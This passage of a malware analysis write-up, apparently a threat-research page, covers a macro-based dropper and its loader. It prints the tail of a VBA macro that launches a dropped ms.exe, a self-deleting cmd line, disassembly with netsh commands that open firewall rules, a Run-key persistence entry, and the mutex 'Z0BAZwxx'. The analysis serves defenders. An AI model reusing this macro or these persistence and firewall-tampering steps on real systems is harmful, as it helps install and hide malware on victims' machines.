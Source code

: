 ``` VBA
  End If
 Next
 Close #FreeFileSlot
 Exec (Name_Payload)
End Sub

Sub Exec(Name_Payload0 As String)
 Dim Path As String
 Dim OBsGG
 Path = Environ("ALLUSERSPROFILE") + "\Memsys"
 ChDrive (Path)
 ChDir (Decrypt(Encode64(Path)))
 OBsGG = Shell((Path + "\ms.exe"), 1)
End Sub
```

<h3>The loader<a name="loader"></a></h3>

<h6>After loaded in memory, this delete himself by a concated command with a ping command</h6>

```winbatch
 cmd.exe /a /c ping 127.0.0.1 -n 3&del "%PROGRAMFILES(X86)%\Memsys\ms.exe"
```

<h6>The loader creates a mutex with a name that is hardcoded in the binary:"Z0BAZwxx" ,we can note too that the loader add two rules in the firewall on the victim.</h6>

```asm
0x00404e3e      jb 0x404e4d
0x00404e40      push eax
0x00404e41      push str.Z0BAZwxx  ; 0x407098 ; u"Z0BAZwxx"
0x00404e46      push str.netsh_advfirewall_firewall_add_rule_name___s__dir_in_action_allow_program___s ; 0x407138 ; u"netsh advfirewall firewall add rule name=\"%s\" dir=in action=allow program=\"%s\""
0x00404e4b      jmp 0x404e58
0x00404e4d      push str.Z0BAZwxx  ; 0x407098 ; u"Z0BAZwxx"
0x00404e52      push eax
0x00404e53      push str.netsh_firewall_add_allowedprogram___s___s_ENABLE ; 0x4070d0 ; u"netsh firewall add allowedprogram \"%s\" %s ENABLE"
0x00404e58      push esi
0x00404e59      call ebx
0x00404e5b      add esp, 0x10
0x00404e5e      push esi        
```

<h6>This push a run key for the persistence for the implant :</h6>

```winbatch
Key: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
Name: [a-z]{5}_32.exe/[a-z]{5}.exe [x86/x64]<br/>
Path: C:\Users\admin\AppData\Roaming\Z0BAZwxx\{Filename}
```

<h6>The name of the mutex is also used for the name of folder in Appdata.</h6>
<h6>The loader use a xor for get the final implant.</h6>
